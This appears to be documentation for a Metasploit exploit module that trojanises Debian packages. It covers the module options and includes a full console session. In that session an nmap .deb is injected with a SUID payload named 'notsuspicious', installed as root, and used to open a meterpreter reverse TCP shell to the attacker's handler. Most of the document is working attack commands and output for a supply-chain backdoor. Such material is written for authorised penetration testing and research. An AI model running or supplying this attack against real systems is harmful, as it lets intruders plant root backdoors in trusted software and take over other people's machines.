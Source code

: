 ## Vulnerable Application

This module exploits the widespread lack of per-package signing
in the Debian package ecosystem. Most `.deb` files are vulnerable
to manipulation if read-write access is available. By injecting a
payload into the package we can gain execution as the root user.
Custom dependencies can also be specified, allowing us to install
additional software. This module can be run with a handler, but it
is not enabled by default.

The exploit module was authored by:

- Andrew Vanderbilt @ Vander Security (Original PoC)
- Nick Cottrell <Rad10Logic> (PoC Additions)

## Verification Steps

 1. Start msfconsole
 2. Get a root session
 3. `use exploit/linux/fileformat/debian_package_hijacker`
 4. `set SESSION <id>`
 5. `set PACKAGE <package_name>` # should be either path to local package or name of apt package
 6. `set DEPENDENCIES <extra_dependencies>`
 7. `set INSTALL_PACKAGE true`
 8. `set DisablePayloadHandler false`
 9. `set ExecuteOnInstall true`
10. `exploit -z`
11. Ensure you have a 2nd root session


## Options

The module provides several configurable options:

### PACKAGE

The absolute file path to the Debian package to hijack.

### INSTALL_PACKAGE

If set to true, the module will attempt to install the newly infected package,
reinstalling the package if necessary. Default is `false`.

### DEPENDENCIES

Package dependencies to inject into control file. Separate multiple
dependencies with a comma (`,`), eg., `depends1,depends2`.

### PAYLOAD_DESTINATION

Determines where the binary will be stored. This option is only available when
`TARGET` is set to `Linux dropper`.

### SUID_PAYLOAD

If set to true, the payload will have the SUID bit set so anyone running it
will be root. Default is `true`. This option is only available when `TARGET` is
set to `Linux dropper`.

### WritableDir

A directory where temporary files can be written, default is `/tmp/`.

### ExecuteOnInstall

If set to true, the payload will be executed during installation. Default is
`false`. This option is only available when `TARGET` is set to `Linux dropper`.

## Scenarios

```
msf6 > use exploit/linux/fileformat/debian_package_hijacker
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/debian_package_hijacker) > set session 6 
session => 6
msf6 exploit(linux/fileformat/debian_package_hijacker) > set verbose true 
verbose => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > set package nmap
package => nmap
msf6 exploit(linux/fileformat/debian_package_hijacker) > set install_package true 
install_package => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/debian_package_hijacker) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 exploit(linux/fileformat/debian_package_hijacker) > set AllowNoCleanup true 
AllowNoCleanup => true
msf6 exploit(linux/fileformat/debian_package_hijacker) > run

[+] Session confirms it's Debian.
[*] Could not find deb file in PACKAGE path
[+] Found PACKAGE as apt package
[*] Working directory: /tmp/.icfpw36j
[*] postinst_file: /tmp/.icfpw36j/extracted/DEBIAN/postinst.
[*] control_file: /tmp/.icfpw36j/extracted/DEBIAN/control.
[*] Creating directory /tmp/.icfpw36j
[*] /tmp/.icfpw36j created
[*] Could not find package on system, but found it in apt
[*] Package: nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb
[*] Adding /usr/local/bin/notsuspicious to package
[*] Creating directory /tmp/.icfpw36j/extracted/usr
[*] /tmp/.icfpw36j/extracted/usr created
[*] Creating directory /tmp/.icfpw36j/extracted/usr/local
[*] /tmp/.icfpw36j/extracted/usr/local created
[*] Creating directory /tmp/.icfpw36j/extracted/usr/local/bin
[*] /tmp/.icfpw36j/extracted/usr/local/bin created
[*] Generated payload file at usr/local/bin/notsuspicious
[*] Set new binary to proper permissions
[*] New binary digest [b20b40c1ea21325f5dd4431d2a8a446d]
[*] Added new hash to sums
[*] Installing infected package
[*] Running command: apt install -y ./nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb
[*] 
WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Reading package lists...
Building dependency tree...
Reading state information...
The following additional packages will be installed:
  liblinear4 nmap-common
Suggested packages:
  liblinear-tools liblinear-dev ncat ndiff zenmap
The following NEW packages will be installed:
  liblinear4 nmap nmap-common
0 upgraded, 3 newly installed, 0 to remove and 0 not upgraded.
Need to get 4060 kB/5960 kB of archives.
After this operation, 25.9 MB of additional disk space will be used.
Get:1 /home/radmin/nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb nmap amd64 7.91+dfsg1+really7.80+dfsg1-2 [1899 kB]
Get:2 http://deb.debian.org/debian bullseye/main amd64 liblinear4 amd64 2.3.0+dfsg-5 [43.6 kB]
Get:3 http://deb.debian.org/debian bullseye/main amd64 nmap-common all 7.91+dfsg1+really7.80+dfsg1-2 [4017 kB]
debconf: unable to initialize frontend: Dialog
debconf: (TERM is not set, so the dialog frontend is not usable.)
debconf: falling back to frontend: Readline
debconf: unable to initialize frontend: Readline
debconf: (This frontend requires a controlling tty.)
debconf: falling back to frontend: Teletype
dpkg-preconfigure: unable to re-open stdin: 
Fetched 4060 kB in 1s (6302 kB/s)
Selecting previously unselected package liblinear4:amd64.
(Reading database ... 261904 files and directories currently installed.)
Preparing to unpack .../liblinear4_2.3.0+dfsg-5_amd64.deb ...
Unpacking liblinear4:amd64 (2.3.0+dfsg-5) ...
Selecting previously unselected package nmap-common.
Preparing to unpack .../nmap-common_7.91+dfsg1+really7.80+dfsg1-2_all.deb ...
Unpacking nmap-common (7.91+dfsg1+really7.80+dfsg1-2) ...
Selecting previously unselected package nmap.
Preparing to unpack .../nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb ...
Unpacking nmap (7.91+dfsg1+really7.80+dfsg1-2) ...
Setting up liblinear4:amd64 (2.3.0+dfsg-5) ...
Setting up nmap-common (7.91+dfsg1+really7.80+dfsg1-2) ...
Setting up nmap (7.91+dfsg1+really7.80+dfsg1-2) ...
Processing triggers for man-db (2.9.4-2) ...
[*] Package installed. Marking downloaded package for deletion.
msf6 exploit(linux/fileformat/debian_package_hijacker) > use payload/linux/x64/meterpreter/reverse_tcp 
msf6 payload(linux/x64/meterpreter/reverse_tcp) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(linux/x64/meterpreter/reverse_tcp) > exploit -z
[*] Payload Handler Started as Job 3
msf6 payload(linux/x64/meterpreter/reverse_tcp) > 
[*] Started reverse TCP handler on 192.168.56.1:4444 
sessions -i 6 -c /usr/local/bin/notsuspicious
[*] Running '/usr/local/bin/notsuspicious' on meterpreter session 6 (192.168.56.126)
[*] Sending stage (3045348 bytes) to 192.168.56.126
[*] Meterpreter session 7 opened (192.168.56.1:4444 -> 192.168.56.126:37788) at 2023-07-17 16:40:37 -0400
[*] This is CredCollect, I have the conn!
```
